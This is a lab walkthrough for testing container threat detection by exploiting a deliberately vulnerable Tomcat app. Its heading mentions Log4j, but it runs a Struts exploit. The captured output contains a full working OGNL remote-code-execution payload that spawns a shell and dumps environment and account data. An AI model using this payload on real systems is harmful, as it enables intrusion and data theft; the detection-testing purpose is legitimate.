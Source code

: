 # Scenario: Vision One XDR for Containers Detect Log4j

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

If you need to extract the exploits unzip with the password `virus`:

```sh
$ cd ${ONEPATH}
$ unzip exploits.zip
```

## Exploiting

First, retrieve the load balancer DNS name

```sh
$ pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Run:

```sh
$ cd ${ONEPATH}/exploits/struts/
$ struts-exploit.sh playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 18.195.245.32:80...
* Connected to playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com (18.195.245.32) port 80 (#0)
> GET /todolist/todolist/ HTTP/1.1
> Host: playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Date: Tue, 01 Aug 2023 12:45:58 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/46de0786-9920-42aa-bff4-c17fd4d273c5
CATALINA_HOME=/usr/local/tomcat
LANG=C.UTF-8
HOSTNAME=ip-10-0-175-104.eu-central-1.compute.internal
...
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
messagebus:x:101:101::/var/run/dbus:/bin/false
* transfer closed with outstanding read data remaining
* Closing connection 0
curl: (18) transfer closed with outstanding read data remaining
```

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-struts-01.png "Exploit")
